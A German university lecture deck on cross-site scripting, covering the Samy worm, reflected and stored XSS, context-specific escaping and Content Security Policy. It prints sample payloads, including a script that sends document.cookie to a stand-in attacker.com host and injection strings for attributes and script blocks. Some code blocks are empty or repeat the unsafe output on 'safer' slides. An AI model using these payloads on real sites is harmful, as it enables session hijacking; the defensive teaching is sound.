


<!-- Titelbild hier aendern:
     src: Bilddatei
     --title-image-width: Bild breiter/schmaler machen
     --title-image-right: negative Werte schieben nach rechts, positive nach links
     --title-image-top: negative Werte schieben nach oben, positive nach unten
     --title-image-object-position: Ausschnitt innerhalb der Bildbox verschieben -->
## Cross-Site-Scripting {.title-slide data-state="hide-footer"}


Prof. Dr. Lukas Iffländer   
HTW Dresden  


---

## Agenda {.content-slide .agenda-slide}

<ul class="agenda">
<li class="agenda-item"><strong>01</strong><span>XSS-Grundlagen</span></li>
<li class="agenda-item"><strong>02</strong><span>Samy Worm</span></li>
<li class="agenda-item"><strong>03</strong><span>Reflected und Stored XSS</span></li>
<li class="agenda-item"><strong>04</strong><span>HTML-Kontexte</span></li>
<li class="agenda-item"><strong>05</strong><span>Script-Kontexte</span></li>
<li class="agenda-item"><strong>06</strong><span>Content Security Policy</span></li>
</ul>

---

## Lernziele {.content-slide .pdf-slide}
<br>

#### Nach dieser Vorlesung können Sie:

1. Die XSS-Typen Reflected und Stored unterscheiden
2. Escape-Strategien für verschiedene HTML-Kontexte anwenden
3. Content Security Policy (CSP) konfigurieren und einsetzen
4. Erklären, warum kontextspezifisches Escaping notwendig ist

---

## The Story of Samy Worm I {.content-slide .pdf-slide}
<br>

- Anyone who viewed my profile who wasn’t already on my friends list would inadvertently add
me as a friend. Without their permission.
- I can propagate the program to their profile, can’t I. If someone views my profile and gets
this program added to their profile, that means anyone who views THEIR profile also adds
me as a friend and hero, and then anyone who hits THOSE people’s profiles add me as a
friend and hero...
- 10/04, 12:34 pm: You have 73 friends. I decided to release my little popularity program. I’m
going to be famous...among my friends.
- 1 hour later, 1:30 am: You have 73 friends and 1 friend request.
- 7 hours later, 8:35 am: You have 74 friends and 221 friend requests.
Woah. I did not expect this much. I’m surprised it even worked.. 200 people have been
infected in 8 hours. That means I’ll have 600 new friends added every day. Woah.

- 1 hour later, 9:30 am: You have 74 friends and 480 friend requests.
Oh wait, it’s exponential, isn’t it. Oops.
- 1 hour later, 10:30 am: You have 518 friends and 561 friend requests.
Oh no. I’m getting messages from people [upset] that I’m their friend when they didn’t add
me. I’m also getting emails...


--- 

## The Story of Samy Worm II {.content-slide .pdf-slide}
<br>

- 3 hours later, 1:30 pm: You have 2,503 friends and 6,373 friend requests.
I’m canceling my account. This has gotten out of control. People are messaging me saying
they’ve reported me for ”hacking” them due to my name being in their ”heroes” list. ...
Apparently people are getting [upset] because they delete me from their friends list, view
someone else’s page or even their own and get re-infected immediately with me. I rule. I
hope no one sues me.
- 5 hours later, 6:20 pm: I timidly go to my profile to view the friend requests. 2,503 friends.
917,084 friend requests.

- I refresh three seconds later: 918,268. I refresh three seconds later. 919,664 (screenshot
below). A few minutes later, I refresh. 1,005,831.
It’s official. I’m popular.
I have hit 1,000,000+ users. In less than 20 hours. Every request is from a unique, living,
and logged in user. I refresh once more and now see nothing but a message that my profile
is down for maintenance. I messed up, didn’t I.
- 1 hour later, 7:05 pm: A friend tells me that they can’t see their profile. Or anyone else’s
profile. Or any bulletin boards. Or any groups. Or their friends requests. Or their friends.
Nothing on myspace works. Messages are everywhere stating that myspace is down for
maintenance and that the entire myspace crew is there working on it. I ponder whether I
should drive over to their office and apologize.
- 2.5 hours later, 9:30 pm: I’m told that everything on myspace seems to be working again.
My girlfriend’s profile, along with many, many others, still say „samy is my hero“, however
the actual self-propagating program is gone.

---

## Samy Worm {.content-slide .pdf-slide}
<br>

- Samy Kamkar, a 19-year-old hacker, created the Samy Worm in 2005.
- The worm was a self-propagating cross-site scripting (XSS) worm.
- It spread through the MySpace social network.
- The worm added Samy as a friend to the user’s profile.
- The worm also added the text „samy is my hero“ to the user’s profile.
- The worm spread to over one million users in less than 20 hours.
- The worm caused MySpace to go offline for several hours.
- Samy was charged with computer hacking and was sentenced to three years of probation.
- The worm was a proof of concept to show the dangers of XSS vulnerabilities.

---

## Warum brauchen Angreifer XSS? {.content-slide .code-slide}

<br>

Die Same Origin Policy verhindert, dass unterschiedliche Quellen das DOM einer anderen Quelle manipulieren.

Folglich kann attacker.com folgendes nicht machen:

```{.javascript code-line-numbers="|1|2-6"}
<iframe src="https://bank.com"></iframe>
<script>
    window.frames[0].forms[0].addEventListener('submit', () => {
        // Haha, got your username and password!
    })
</script>
```

Der Angreifer braucht also eine andere Möglichkeit, JavaScript auf der Seite des Opfers auszuführen.

---

## XSS - eine Code Injection Attacke {.content-slide .pdf-slide}
<br>

- Code Injection wird ausgelöst, wenn unvertrauenswürdige Nutzerdaten sich unerwartet als
Code heraussstellen.
- Jeder Code, der einen Befehl mit Nutzerdaten kombiniert ist potenziell anfällig für Code
Injection.
- Bei XSS ist der unerwartete Code JavaScript in einem HTML-Dokument
- Bei SQL Injection ist der unerwartete Code ein SQL-Befehl in einem Query-String

---

## Was heißt das für uns? {.two-column-slide}
<br>

:::: {.columns}
::: {.column width="40%"}

:::

::: {.column width="60%"}
- Im Erfolgsfall kann der Angreifer alles tun,
was das Opfer in seinem Browser tun kann.
- insbesondere
    - Cookies stehlen (JA! Alle Sessions!)
    - HTTP-Anfragen mit den Cookies des
Nutzers direkt aus dessen Browser
schicken
:::
::::

---

## Beispiel: Suchmaschine {.content-slide .code-slide}

### Gutartige Suche

<br>

- **User input:** hey there
- **URL:** https://searchengine.com/search?q=hey+there
    - encodeURIComponent("hey there") -> hey%20there
- **Server input:** hey there
    - decodeURIComponent("hey%20there") → hey there


#### Zurückgegebene Seite

```html
<p>Search results for "hey there"</p>
```

---

## Beispiel: Suchmaschine {.content-slide .code-slide}

### Bösartige Suche

<br>

- **User input:** `<script>alert(document.cookie)</script>`
- **URL:** https://searchengine.com/search?q=\%3Cscript\%3Ealert(document.cookie)\%3C/script\%3 
- **Server input:** &lt;script&gt;alert(document.cookie)&lt;/script&gt;

#### Zurückgegebene Seite

```html
<p>Search result for
    <script>alert(document.cookie)</script>
</p>
```

Der Browser interpretiert die Nutzereingabe als JavaScript.

---

## Session Hijacking mit XSS {.content-slide .code-slide}
<br> 

- Wenn eine Website anfällig für XSS ist, kann ein Angreifer JavaScript in die Seite einfügen und Cookies stehlen.   
    - kann ein Angreifer JavaScript in die Seite einfügen,   
    - an diesem Punkt einfach die Cookies des Nutzers stehlen.
```html
<script>
    new Image().src =
        'https://attacker.com/steal?cookie=' + document.cookie
</script>
```

#### Effekt

Der Request wird aus dem Browser des Opfers gesendet, inklusive Zugriff auf dessen Session-Kontext.

---

## Reflektierte XSS-Angriffe {.content-slide .code-slide}
<br>

```{.javascript code-line-numbers="|1|2|3-9|5"}
app.get('/', (req, res) => {
    const { source } = req.query
    res.send(`
        <h1>
            ${source ? `Hi ${source} reader!` : ''}
            Login to your bank account:
        </h1>
        ...
    `)
})
```

```text
http://localhost:4000/?source=<script>alert('hey there!')</script>
```

---

## Zum Glück einfach zu verhindern {.content-slide .code-slide}
<br>

```{.javascript code-line-numbers="|1|3|4-10"}
const htmlEscape = require('html-escape')

app.get('/', (req, res) => {
    const source = htmlEscape(req.query.source)
    res.send(`
        <h1>
            ${source ? `Hi ${source} reader!` : ''}
            Login to your bank account:
        </h1>
        ...
    `)
})
```

---

## Never Trust the Client {.content-slide .pdf-slide}
<br>

- Jegliche Daten vom Client sind potenziell bösartig
- Clients können alles senden, was sie wollen

---

## XSS immer noch eine der häufigsten Bedrohungen [1] {.image-slide}




---

## Warum hält sich XSS so gut? {.content-slide .pdf-slide}
<br> 

- Daten können in mehreren verschiedenen Kontexten genutzt werden.
    - Das Web hat viele verschieden Sprachen.
    - Allein in HTML sind mindestens fünf verschiedene Kontexte, in denen Daten genutzt werden
können.
- Jeder Kontext hat unterschiedliche Kontrollzeichen.
    - Manche Kontexte haben sehr komplexe Regeln.
- Es ist schwer, alle Kontexte zu kennen und zu verstehen.
- Versagt die Security in einem Kontext, kann das ganze System gefährdet sein.

---

## Reflektierte XSS vs. Persistente (stored) XSS {.content-slide .pdf-slide}
<br>

- In reflektierten XSS Angriffen wird der bösartige Code in der HTTP-Anfrage selbst
übergeben.
    - **Angriffsziel:** Eine URL finden, zu der man das Ziel locken kann und die den bösartigen Code enthält.
    - **Einschränkung:** Schadcode muss in URL-Pfad oder Query-String übergeben werden.
- In persistenten (stored) XSS Angriffen wird der bösartige Code in der Datenbank des
Servers gespeichert.
    - **Angriffsziel:** Irgendein Mittel finden, um Schadcode in die Datenbank zu schreiben.
    - Im Erfolgsfall inkludiert der Server den Schadcode in alle Seiten, die er ausliefert

---

## HTML-Elemente {.content-slide .code-slide}
### Grundversion 
<br>

- Beispiel: 
```html
<p>Search result for hey there</p>
```

---

## HTML-Elemente {.content-slide .code-slide}

### Template
<br>

#### HTML Template
```html
<p>Search result for USER_DATA_HERE</p>
```

#### Nutzereingabe

```html
<script>alert(document.cookie)</script>
```

#### Zurückgegebene Seite

```html
<p>Search result for
    <script>alert(document.cookie)</script>
</p>
```
---

## HTML-Elemente {.content-slide .code-slide}
### Gegenmaßnahme
<br>

- HTML template
```html
<p>USER_DATA_HERE</p>
```
- Wie fixt man das Problem?
    - Alle < und > Zeichen in der Nutzereingabe durch &lt; und &gt; ersetzen.
    - Alle & Zeichen in der Nutzereingabe durch &amp; ersetzen.
- Vorsicht: script und style haben unterschiedliche Regeln!

---

## HTML-Elemente {.content-slide .code-slide}
### Sichere(re) Version

<br>

#### HTML Template
```html
<p>Search result for USER_DATA_HERE</p>
```

#### Nutzereingabe

```html
<script>alert(document.cookie)</script>
```

#### Zurückgegebene Seite

```html
<p>Search result for
    &lt;script&gt;alert(document.cookie)&lt;/script&gt;</p>
```
---

## HTML-Attribute {.content-slide .code-slide}

### Template
<br>

#### HTML template
```html

```

#### Nutzereingabe

```html
Iffländer" onload="alert(document.cookie)
```

#### Zurückgegebene Seite

```html

```
---

## HTML-Attribute {.content-slide .code-slide}
### Gegenmaßnahme 
<br> 

#### HTML Template 
```html

```

- Wie fixt man das Problem?
    - Alle ' Zeichen in der Nutzereingabe durch &apos; ersetzen.
    - Alle " Zeichen in der Nutzereingabe durch &quot; ersetzen.
    - Alle & Zeichen in der Nutzereingabe durch &amp; ersetzen.


---

## HTML-Attribute {.content-slide .code-slide}
### Sichere(re) Version
<br>

#### HTML Template
```html

```
#### Nutzereingabe
```html
Iffländer' onload='alert(document.cookie)>
```
#### Zurückgegebene Seite
```html

```

---

## Attribute ohne Anführungszeichen {.content-slide .code-slide}

### Grundversion 
<br>

#### Beispiel
```html

```

---

## Attribute ohne Anführungszeichen {.content-slide .code-slide}
### Template
<br>

#### Beispiel
```html

```
#### Nutzereingabe
```html

```
#### Zurückgegebene Seite (trotz Escaping von ' , '' und & Zeichen)
```html

```
---

## Attribute ohne Anführungszeichen {.content-slide .code-slide}
### Gegenmaßnahme
<br>

#### HTML Template
```html

```

- Wie fixt man das Problem?
    - Attribute immer in Anführungszeichen setzen.
    - Attribute ohne Anführungzeichen können durch zahlreiche Zeichen angegriffen werden.
Darunter space, %, *, +, ,, -, /, <, =, >, ^ und |

---

## HTML-Attribute mit besonderen Bedeutungen {.content-slide .code-slide}
<br>

- Für die meisten Attribute ist escaping ausreichend
- Besondere Vorsicht gilt bei src und href!
    - e.g. `<script src='USER_DATA_HERE'></script>` kann niemals sicher sein, auch wenn USER_DATA_HERE escaped wurde.
    - Besonders bei URLs vom Typ javascript: oder data: ist Vorsicht geboten.

---

## data:-URL {.content-slide .code-slide}
<br>

- Ruft testweise mal die URL `data:text/html,<script>alert('hi')</script>` auf.
- Eine weitere interessante URL ist `data:text/html,<html contenteditable></html>`

---

## javascript:-URL {.content-slide .code-slide}
<br>

- Ruft testweise mal die URL `javascript:alert(document.cookie)` auf.
- Hier schützen uns unsere modernen Browser
    - Chrome und Firefox entfernen den javascript:-Teil wenn man die URL in die Adresszeile kopiert.
    - Safari verhindert das Ausführen von javascript:-URLs.

---

## Wofür sind data: und javascript: URLs gut? {.content-slide .code-slide}
<br>

- Historische Lösung, um JavaScript als Reaktion auf einen Klick auszuführen:
```html
<a href='javascript:alert("hi")'>Say hi</a>
```

- um HTTP-Anfragen in einer HTML-Seite zu speichern:
```html

```

- um HTTP-Anfragen in einem CSS-Stylesheet zu speichern:
```html
body { background-image: url('data:image/png;base64,iVBORw...); }
```
---

## Beware, here be dragons! {.content-slide .code-slide}
<br>

- Wenn ein Nutzer eine URL wählen darf, kann JavaScript ausgeführt werden.
```html
<a href='javascript:alert(document.cookie)'>Say hi</a>
```

- Wenn ein Nutzer eine Seite wählen draf, die in einem iframe angezeigt werden soll, kann
JavaScript ausgeführt werden.
```html
<iframe src='data:text/html,<script>alert(document.cookie)</script>'></iframe>
```

- Wenn ein Nutzer ein Script wählen darf, kann (offensichtilch) JavaScript ausgeführt werden.
```html
<script src='data:application/javascript,alert(document.cookie)'></script>
```

---

## Die nächste Falle: `on*`-Attribute {.content-slide .code-slide}
<br>

#### HTML-Template

```html
<div onmouseover="handleHover(USER_DATA_HERE)">
```

#### Nutzereingabe

```javascript
); alert(document.cookie)
```

#### Zurückgegebene Seite

```html
<div onmouseover="handleHover(); alert(document.cookie)">
```
<br>

- Nur `'` und `"` zu escapen reicht hier nicht!

---

## Noch ein False Friend {.content-slide .code-slide}
### Code
<br>

- HTML template:
```html
<div id='USER_DATA_HERE'>Some text</div>
```
- Nutzereingabe: username
- Zurückgegebene Seite:
```html
<div id='username'>Some text</div>
```
- Wie könnte dieses HTML ein Problem darstellen?

--- 

## Noch ein False Friend {.content-slide .code-slide}

### Ausnutzung 
<br>


```html
<div id="username">Some text</div>
<script>
    // There's now a `username` variable which
    // references the above <div>
    if (typeof username ! == 'undefined') {
        // do something!
    }
</script>
```


---

## Script-Elemente {.content-slide .code-slide}

### Ausgabe
<br>

#### Beispiel
```html
<script>
    let username = 'USER_DATA_HERE'
    alert(`Hi there, ${username}`)
</script>
```

---

## Script-Elemente {.content-slide .code-slide}
### Template
<br>

#### HTML Template 
```html
<script>
    let username = 'USER_DATA_HERE'
    alert(`Hi there, ${username}`)
</script>
```
- Nutzereingabe: `Iffländer'; alert(document.cookie); //`

#### Zurückgegebene Seite:
```html
<script>
    let username = 'Iffländer\\'; alert(document.cookie); //'
    alert(`Hi there, ${username}`)
</script>
```
---

## Script-Elemente {.content-slide .code-slide}
### Gegenmaßnahme
<br>

#### HTML Template 
```html
<script>
    let username = 'USER_DATA_HERE'
    alert(`Hi there, ${username}`)
</script>
```

- Wie fixt man das Problem?
    - Alle ' durch \' ersetzen
    - Alle " durch \" ersetzen

---

## Script-Elemente {.content-slide .code-slide}
### Sichere(re) Version
<br>

#### HTML Template 
```html
<script>
    let username = 'USER_DATA_HERE'
    alert(`Hi there, ${username}`)
</script>
```

- Nutzereingabe: `Iffländer'; alert(document.cookie); //`

#### Zurückgegebene Seite:
```html
<script>
    let username = 'Iffländer\\'; alert(document.cookie); //'
    alert(`Hi there, ${username}`)
</script>
```

---

## Script-Elemente {.content-slide .code-slide}
### Intelligenterer Angreifer
<br>

#### HTML Template 
```html
<script>
    let username = 'USER_DATA_HERE'
    alert(`Hi there, ${username}`)
</script>
```

- Nutzereingabe: `Iffländer'; alert(document.cookie); //`

#### Zurückgegebene Seite:
```html
<script>
    let username = 'Iffländer\\'; alert(document.cookie); //'
    alert(`Hi there, ${username}`)
</script>
```
---

## Script-Elemente {.content-slide .code-slide}
### Schutz?
<br>

- Das Escape-Zeichen \ kann durch den Einsatz eines weiteren Escape-Zeichens entschärft
werden.
- Ideen, das zu fixen:
    - Alle ' durch \' ersetzen
    - Alle " durch \" ersetzen
    - Alle \ durch \\ ersetzen
- Immer noch kaputt ...

---

## Script-Elemente {.content-slide .code-slide}
### Noch schlauerer Angreifer
<br>


- HTML template:
```html
<script>
    let username = 'USER_DATA_HERE'
    alert(`Hi there, ${username}`)
</script>
```

- Nutzereingabe: User input:
`</script><script>alert(document.cookie)</script><script>`

- Zurückgegebene Seite:
```html
<script>
    let username =
        '</script><script>alert(document.cookie)</script><script>'↪→
    alert(`Hi there, ${username}`)
</script>
```

---

## Script-Elemente {.content-slide .code-slide}
### Noch schlauerer Angreifer - Elemente im Detail
<br>

```html
<script>
    let username = '
</script>
<script>
    alert(document.cookie)
</script>
<script>
    '
    alert(`Hi there, ${username}`)
</script>
```

---

## Parser, Parser, überall Parser {.content-slide .pdf-slide}

- Zuerst läuft der HTML-Parser
    - Sucht gierig nach HTML Tags
    - Produziert einen DOM Baum
- Dann laufen die CSS- und JavaScript-Parser
    - Der JavaScript-Parser lauft auf den Inhalten von `<script>` Tags
    - Der CSS-Parser läuft auf den Inhalten von `<style>` Tags

---

## Script-Elemente {.content-slide .code-slide}

### Gegenmaßnahme - Nächster Versuch

- Können wir nicht einfach HTML Tags in der Nutzereingabe escapen?
- Idee:
    - Alle < durch &lt; ersetzen
    - Alle > durch &gt; ersetzen

---

## Script-Elemente {.content-slide .code-slide}
### Sichere(re) Version - Nächster Versuch
<br>

#### HTML Template
```html
<script>
    let username = 'USER_DATA_HERE'
    alert(`Hi there, ${username}`)
</script>
```

Nutzereingabe: `User input: Iffländer'; alert(document.cookie); //`

#### Zurückgegebene Seite:
```html
<script>
let username = 'Iffländer&apos;; alert(document.cookie) //'
alert(`Hi there, ${username}`)
</script>
```

---

## Script-Elemente {.content-slide .pdf-slide}
### Besser aber hat Probleme
<br>

- Erhält den User-Input nicht 
<br>



---


## Script-Elemente {.content-slide .pdf-slide}
### Und wie löst man das jetzt wirklich?

- Daten in Hexadezimal encodieren und einen String mit den Zeichen 0–9 und a–f erstellen.
- Dann die Daten in ein `<script>` Element includieren.
- In JavaScript wird der String dann decodiert.


---

## Script-Elemente {.content-slide .code-slide}
### Sichere Implementierung mit Template-Tag
<br>

- Eine andere Lösung:
    - einen `<template>` Tag verwenden, um Daten zu speichern, die nicht gerendert werden sollen
    - die Escaping-Regeln sind wie bei HTML Elementen (<, >, &)

```html
<template id='username'>HTML_ENCODED_USER_DATA</template>
<script>
    let username =
        document.getElementById('username').textContent↪→
    alert(`Hi there, ${username}`)
</script>
```

---

## Contexte, die nie sicher sind {.content-slide .code-slide}
<br>

```html
<script>USER_DATA_HERE</script>
```

```html
<!-- USER_DATA_HERE -->
```

 ```html
<USER_DATA_HERE href='/'>Link</USER_DATA_HERE>
```

```html
<div USER_DATA_HERE='some value'></div>
```

```html
<style>USER_DATA_HERE</style>
```
---

## Klang nach einer guten Idee
<br>

- HTML-Parser sind extrem tolerant und akzeptieren sehr viele „Fehler“.
- Hier ein paar Beispiele für „valides“ HTML:
```html
<script/XSS src='https://attacker.com/xss.js'></script>
```

```html
<body onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(document.cookie)></body>
```

```html
<script>alert(document.cookie)</script>">
```

```html
<iframe src=https://attacker.com/path/to/some/file/xss.js <
```
---

## Robustness Principle {.content-slide .pdf-slide}
<br>

- „Be conservative in what you send, be liberal in what you accept“
- Auch als Postel’s Law bekannt, der in der TCP-Spezifikation folgendes schrieb:
    - „TCP implementations should follow a general principle of robustness: be conservative in what
you do, be liberal in what you accept from others.“
- Aus Security-Sicht ist das eine schlechte Idee.
    - „A flaw can become entrenched as a de facto standard. Any implementation of the protocol is
required to replicate the aberrant behavior, or it is not interoperable. This is both a
consequence of applying the robustness principle, and a product of a natural reluctance to
avoid fatal error conditions. Ensuring interoperability in this environment is often referred to as
aiming to be ’bug for bug compatible.“ – Martin Thomson

---

## Wo kann ich escapete Nutzerdaten sicher verwenden? {.content-slide .pdf-slide}
<br>

- HTML-Element-Inhalte
- HTML-Attribute-Werte
- JavaScript Strings

---

## Vorsicht: Nesting und Parser-Ketten {.content-slide .code-slide}
<br>

```html
<div onclick="setTimeout('doStuff(\'USER_DATA_HERE\')', 1000)"></div>
```

- Zu beachten: Es gibt drei Runden des Parsings!
    1. HTML Parser extrahiert das onclick Attribut und fügt es zum DOM hinzu.
    2.  Wenn der Button geklickt wird, wird der JavaScript-Parser setTimeout() extrahieren und ausführen.
    3. Eine Sekunde später, wird der String, der als erstes Argument an setTimeout() übergeben wurde, geparsed und ausgeführt.
- Wenn die Nutzerdaten nicht doppelt enkodiert mit JavaScript-Backslash-Sequenzen und
danach HTML-Encodiert sind, hat man ein Problem.
- Am besten solchen Code nicht schreiben

---

## Noch ein Nesting Beispiel {.content-slide .code-slide}
<br>

```html
<script>
    let someValue = 'USER_DATA_HERE'
    setTimeout("doStuff('" + someValue + "')", 1000)
</script>
```

- Escaping von `someValue` ist vergleichsweise einfach
- Genauso einfach ist es, zu vergessen, dass man auch noch die setTimeout-Konstruktion
escapen muss.
- Wer solchen Code schreibt, ist selbst schuld.

---

## CSP – Grundidee {.content-slide .pdf-slide}
<br>

::: {.callout-important title="Problem"}
Browser führen jeden JavaScript-Code aus, der in einer Seite eingebettet ist – auch von Angreifern injizierten Code.
:::

::: {.callout-tip title="Lösung: Content Security Policy"}
Server definiert per HTTP-Header, welche Quellen für Scripts erlaubt sind.
:::

`Content-Security-Policy: script-src 'self' https://trusted.com`   

- Browser blockiert alle Scripts von nicht erlaubten Quellen
- Inline-Scripts werden standardmäßig blockiert

---

## CSP-Direktiven {.content-slide .table-slide}
<br>

| Direktive | Kontrolliert |
|---|---|
| `script-src` | JavaScript-Quellen |
| `style-src` | CSS-Quellen |
| `img-src` | Bildquellen |
| `connect-src` | XHR/Fetch-Ziele |
| `frame-ancestors` | Wer darf die Seite einbetten? |
| `default-src` | Fallback für alle Direktiven |
| `form-action` | Erlaubte Form-Submit-Ziele |

<br>

**Quellenwerte:** `'self'`, `'none'`, URLs, `'unsafe-inline'`, `'unsafe-eval'`

---

## CSP-Beispiel {.content-slide .code-slide}
<br>

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' https://cdn.example.com;
  style-src 'self' 'unsafe-inline';
  img-src *;
  frame-ancestors 'none';
```
<br>

- `default-src 'self'`: standardmäßig nur eigene Ressourcen
- `script-src`: Scripts nur von eigener Domain und CDN
- `style-src`: CSS von eigener Domain + Inline-Styles
- `img-src *`: Bilder von überall
- `frame-ancestors 'none'`: Seite darf nicht eingebettet werden

---

## CSP und Inline-Scripts {.content-slide .code-slide}
<br>

::: {.callout-important title="Problem"}
'unsafe-inline' erlaubt alle Inline-Scripts – auch injizierte!
:::

#### Lösung 1: Nonces

```http
Content-Security-Policy: script-src 'nonce-r4nd0mV4lu3'
```

```html
<script nonce="r4nd0mV4lu3">
    // Dieser Code wird ausgeführt
</script>
```

#### Lösung 2: Hashes

```http
Content-Security-Policy: script-src 'sha256-abc123...'
```

Nur Scripts mit exakt diesem Hash werden ausgeführt.

---

## Strict CSP (Google-Empfehlung) {.content-slide .code-slide}
<br>

```http
Content-Security-Policy:
  script-src 'nonce-{RANDOM}' 'strict-dynamic';
  object-src 'none';
  base-uri 'none';
```

- `'nonce-{RANDOM}'`: zufälliger Wert pro Request
- `'strict-dynamic'`: Von vertrauenswürdigen Scripts geladene Scripts sind ebenfalls vertrauenswürdig
- `object-src 'none'`: keine Plugins
- `base-uri 'none'`: verhindert Base-Tag-Injection
<br>

**Tipp:** Erst mit Content-Security-Policy-Report-Only testen!

---

## CSP Best Practices {.content-slide .pdf-slide}

- `'unsafe-inline'` vermeiden, weil es CSP gegen XSS wirkungslos macht
- `'unsafe-eval'` vermeiden, weil es `eval()` und `new Function()` blockiert
- Nonces für legitime Inline-Scripts verwenden
- Mit Report-Only-Modus beginnen
```http
Content-Security-Policy-Report-Only: ...
```
- Violations an einen Endpoint reporten lassen
```http
Content-Security-Policy: ...; report-uri /csp-report
```
- CSP Evaluator nutzen: https://csp-evaluator.withgoogle.com/

---

## CSP-Grenzen {.content-slide .pdf-slide}
<br>

::: {.callout-important title="CSP ist kein Allheilmittel!"}
CSP ist eine zusätzliche Verteidigungsschicht, kein Ersatz für korrektes Escaping.
:::

- CSP verhindert nicht alle XSS-Varianten:
    - Stored XSS in erlaubten Scripts
    - Dangling Markup Injection
    - XSS über JSONP-Endpoints
- Legacy-Browser unterstützen CSP möglicherweise nicht
- Komplexe Websites haben oft viele Ausnahmen nötig

**Defense in Depth:** CSP und korrektes Escaping und HttpOnly-Cookies


---

## Zusammenfassung {.content-slide .pdf-slide}
<br>


✓ XSS ist Code Injection in HTML und JavaScript  

✓ Der Kontext bestimmt die Escape-Strategie  

✓ User-Input niemals unescaped ausgeben  

✓ CSP ist eine zusätzliche Verteidigungsschicht     
<br>

::: {.callout-note title="Merksatz"}
**"Context is King"** - die richtige Escape-Funktion hängt vom Ausgabekontext ab.
:::
<br>

#### Checkliste für sichere Webanwendungen:
1. Kontextspezifisches Output-Encoding
2. Content Security Policy implementieren
3. HttpOnly- und Secure-Flags für Session-Cookies
4. Regelmäßige Security-Audits

---


---

## Literaturverzeichnis I {.content-slide .pdf-slide}

[1] Positive Technologies. "Web Applications vulnerabilities and threats: statistics for 2019". In: Ptsecurity, Nov. 2020.  
URL: https://www.ptsecurity.com/ww-en/analytics/web-vulnerabilities-2020.

---

## Vielen Dank! {.title-slide data-state="hide-footer"}


Prof. Dr. Lukas Iffländer   
HTW Dresden  

